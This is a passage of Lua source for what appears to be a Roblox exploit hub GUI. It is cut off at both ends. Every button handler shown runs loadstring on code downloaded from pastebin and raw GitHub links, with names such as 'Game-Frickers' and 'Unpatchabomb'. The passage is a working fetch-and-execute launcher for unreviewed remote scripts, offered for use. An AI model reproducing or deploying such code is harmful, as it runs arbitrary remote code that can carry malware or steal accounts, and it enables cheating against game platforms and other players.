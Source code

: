 	script.Parent.MouseButton1Down:Connect(function()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/Hillsides/Game-Frickers/master/Balloon%20Simulator%202%20%5BPreview%20Of%20Dogey%20Hub%5D.lua",true))()
	end)
end
coroutine.wrap(UGEECJ_fake_script)()
local function DRQCEB_fake_script() -- _5.Script 
	local script = Instance.new('Script', _5)

	script.Parent.MouseButton1Down:Connect(function()
		loadstring(game:HttpGet("https://pastebin.com/raw/3qs77TTk"))();
	end)
end
coroutine.wrap(DRQCEB_fake_script)()
local function OPCULQU_fake_script() -- _6.Script 
	local script = Instance.new('Script', _6)

	script.Parent.MouseButton1Down:Connect(function()
		loadstring(game:HttpGet("https://pastebin.com/raw/cv4yFfQU"))();
	end)
end
coroutine.wrap(OPCULQU_fake_script)()
local function NABVAJ_fake_script() -- _7.Script 
	local script = Instance.new('Script', _7)

	script.Parent.MouseButton1Down:Connect(function()
		loadstring(game:HttpGet("https://pastebin.com/raw/AYjCdjgk"))();
	end)
end
coroutine.wrap(NABVAJ_fake_script)()
local function VYYAXA_fake_script() -- _8.Script 
	local script = Instance.new('Script', _8)

	script.Parent.MouseButton1Down:Connect(function()
		loadstring(game:HttpGet("https://pastebin.com/raw/yigKxDrK"))();
	end)
end
coroutine.wrap(VYYAXA_fake_script)()
local function RTZM_fake_script() -- _49.Script 
	local script = Instance.new('Script', _49)

	script.Parent.MouseButton1Down:Connect(function()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/MarsQQ/Unpatchabomb/master/Unpatchabomb"))();
	end)
end
coroutine.wrap(RTZM_fake_script)()
local function GSZCN_fake_script() -- _10.Script 
	local script = Instance.new('Script', _10)

	script.Parent.MouseButton1Down:Connect(function()
		loadstring(game:HttpGet("https://pastebin.com/raw/MLPypHYv"))();
	end)
end
coroutine.wrap(GSZCN_fake_script)()
local function TDDXDLT_fake_script() -- _11.Script 
	local script = Instance.new('Script', _11)
